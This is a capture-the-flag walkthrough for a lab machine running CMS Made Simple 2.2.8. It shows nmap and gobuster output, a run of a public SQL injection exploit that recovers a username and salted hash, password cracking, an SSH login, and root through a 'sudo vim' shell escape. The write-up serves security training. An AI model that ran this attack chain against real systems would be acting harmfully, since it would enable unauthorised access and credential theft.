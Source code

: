 # Recon
## Nmap

21/tcp   open   ftp
80/tcp   closed http
2222/tcp open   EtherNetIP-1

21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)


## FTP

- To solve the error: 229 Entering Extended Passive Mode (|||43424|) just enter the word: passive
- We enter with anonymous and got a file called formitch.txt
- 

## Web

- Looking at robots.txt it seems like it is disallowing a endpoint called: /openemr-5_0_1_3

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

- Searching for vulnerabilities: searchsploit openemr, we only got vulnerabilities that need to be authenticated
- Since we cant access the openemr we are stucked

## Gobuster

Lets do a gobuster enumeration.
```
/simple               (Status: 301) [Size: 313] [--> http://10.10.111.75/simple/]
```
We found a website using "CMS made simple" that it seems like is in the version 2.2.8 
Lets start to find vulnerabilites for this version.

```
searchsploit cms made simple 2.2.8

--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                         | php/webapps/46635.py
--------------------------------------------------------------------------------- ---------------------------------

```
We found a sql injection explopit for this version.
Lets copy to our directory and make some changes to run with python3: searchsploit -m 46635 


```
python3 46635.py -u http://10.10.111.75/simple/ -w ~/tools/seclists/Passwords/Leaked-Databases/rockyou-10.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Using https://www.dcode.fr/hash-function we get:
1dac0d92e9fa6bb2secret

With the password being secret

## SSH

With those credentials we login in ssh as mitch and we get the user.txt


## Priv Escal

```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

With that being said we can just do:


```
mitch@Machine:~$ sudo vim -c ':!/bin/sh'

# whoami
root
```

And we got the root flag.




